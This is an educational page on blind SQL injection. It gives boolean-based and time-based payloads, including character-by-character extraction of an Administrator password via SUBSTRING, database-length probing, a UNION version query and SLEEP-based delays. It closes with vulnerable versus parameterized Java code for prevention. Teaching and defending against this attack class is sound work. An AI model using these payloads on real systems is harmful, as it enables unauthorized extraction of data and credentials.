

<Callout title="Overview" icon="shield-alert">
  **Blind-based SQL Injection** is a class of SQL injection attacks where the application does not return database error messages or visible data directly. Instead, the attacker infers information indirectly through *behavioral changes*, *boolean responses*, or *time delays*.

  It is used when the application is vulnerable to SQLi but suppresses output, making classical error-based extraction impossible.
</Callout>

## Blind SQL Injection Classification



<Frame caption="Blind SQL Injection Reference Diagram">
  
</Frame>

---

## 1. Boolean-Based Blind SQL Injection

The application returns different outcomes based on whether the SQL condition is **true** or **false**.

Examples of observable differences:

- Page content changes
- Response codes differ
- Redirect occurs vs. no redirect
- Content length differs (most common)

### 1.1 Understanding the Vulnerability

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:

```http
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

When a request containing a `TrackingId` cookie is processed, the application uses a SQL query to determine whether this is a known user:

```sql
SELECT TrackingId
FROM TrackedUsers
WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4';
```

This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data.

If you submit a recognized `TrackingId`, the query returns data and you receive a **"Welcome back"** message in the response.

This behavior is enough to be able to exploit the blind SQL injection vulnerability. You can retrieve information by triggering different responses conditionally, depending on an injected condition.

### 1.2 Comparing Boolean Conditions

To understand how this exploit works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:

```sql
…xyz' AND '1'='1
…xyz' AND '1'='2
```

- The first of these values causes the query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
- The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.

This allows us to determine the answer to any single injected condition, and extract data one piece at a time.

### 1.3 Inferring Data One Character at a Time

For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. You can determine the password for this user by sending a series of inputs to test the password one character at a time.

**Initial test:**

```sql
xyz' AND SUBSTRING(
    (SELECT Password FROM Users WHERE Username = 'Administrator'),
    1,
    1
) > 'm
```

This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.

**Second test:**

```sql
xyz' AND SUBSTRING(
    (SELECT Password FROM Users WHERE Username = 'Administrator'),
    1,
    1
) > 't
```

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.

**Final character test:**

```sql
xyz' AND SUBSTRING(
    (SELECT Password FROM Users WHERE Username = 'Administrator'),
    1,
    1
) = 's
```

We can continue this process to systematically determine the full password for the `Administrator` user.

<Callout title="Database Compatibility" icon="info">
  The `SUBSTRING` function is called `SUBSTR` on some types of database. For more details, see the SQL injection cheat sheet.
</Callout>

### 1.4 Conditional SQL Expressions

The following example evaluates a condition against a product query:

```sql
SELECT IF(
    (SELECT count FROM product WHERE id = $ID) > 1,
    1,
    0
);
```

#### Example Payloads

```sql
?id=10 AND 1=1      -- True, normal page
?id=10 AND 1=2      -- False, altered page
?id=10 AND 1=IF(2>1,1,0) -- True
?id=10 AND 1=IF(1>1,1,0) -- false
```

#### Database Name Length Inference

```sql
?id=10 AND 1=IF((SELECT LENGTH(DATABASE()))>1,1,0) -- true
?id=10 AND 1=IF((SELECT LENGTH(DATABASE()))>2,1,0) -- true
?id=10 AND 1=IF((SELECT LENGTH(DATABASE()))>3,1,0) -- true
?id=10 AND 1=IF((SELECT LENGTH(DATABASE()))>4,1,0) -- true
?id=10 AND 1=IF((SELECT LENGTH(DATABASE()))>5,1,0) -- false
?id=10 AND 1=IF((SELECT LENGTH(DATABASE()))=5,1,0) -- true
```

<Callout title="Goal" icon="target">
  Infer data by asking the database a series of yes/no questions.
</Callout>

---

## 2. Time-Based Blind SQL Injection

When the application returns identical responses regardless of true/false conditions, the attacker uses database sleep functions to detect conditions based on **response time**.

You can potentially identify both the database type and version by injecting provider-specific queries to see if one works.

### 2.1 Database Version Identification

The following are some queries to determine the database version for some popular database types:

| Database type | Query |
| --- | --- |
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

For example, you could use a `UNION` attack with the following input:

```sql
' UNION SELECT @@version-- 
```

### 2.2 Conditional Time Delay

**Example payload:**

```sql
?id=10 AND IF(
    SUBSTRING(@@version,1,1)='5',
    SLEEP(5),
    0
)
```

<Callout title="Goal" icon="target">
  Use controlled delays to extract data bit-by-bit.
</Callout>

<Callout title="Testing Considerations" icon="clock">
  Network latency, application load, caching, and database execution time can all affect response measurements. Compare repeated baseline and test requests when assessing time-based behavior.
</Callout>

---

## 3. How to Prevent SQL Injection

<Callout title="Primary Defense" icon="shield-check">
  You can prevent most instances of SQL injection using parameterized queries instead of string concatenation within the query. These parameterized queries are also known as **prepared statements**.
</Callout>

### 3.1 Vulnerable Java Code

The following code is vulnerable to SQL injection because the user input is concatenated directly into the query:

```java
String query = "SELECT * FROM products WHERE category = '" + input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```

### 3.2 Secure Java Code

You can rewrite this code in a way that prevents the user input from interfering with the query structure:

```java
PreparedStatement statement = connection.prepareStatement(
    "SELECT * FROM products WHERE category = ?"
);

statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```

You can use parameterized queries for any situation where untrusted input appears as data within the query, including the `WHERE` clause and values in an `INSERT` or `UPDATE` statement.

They can't be used to handle untrusted input in other parts of the query, such as table or column names, or the `ORDER BY` clause.

Application functionality that places untrusted data into these parts of the query needs to take a different approach, such as:

- Whitelisting permitted input values.
- Using different logic to deliver the required behavior.

### 3.3 Parameterization Rules

For a parameterized query to be effective in preventing SQL injection, the string that is used in the query must always be a hard-coded constant. It must never contain any variable data from any origin.

Do not be tempted to decide case-by-case whether an item of data is trusted, and continue using string concatenation within the query for cases that are considered safe.

It's easy to make mistakes about the possible origin of data, or for changes in other code to taint trusted data.
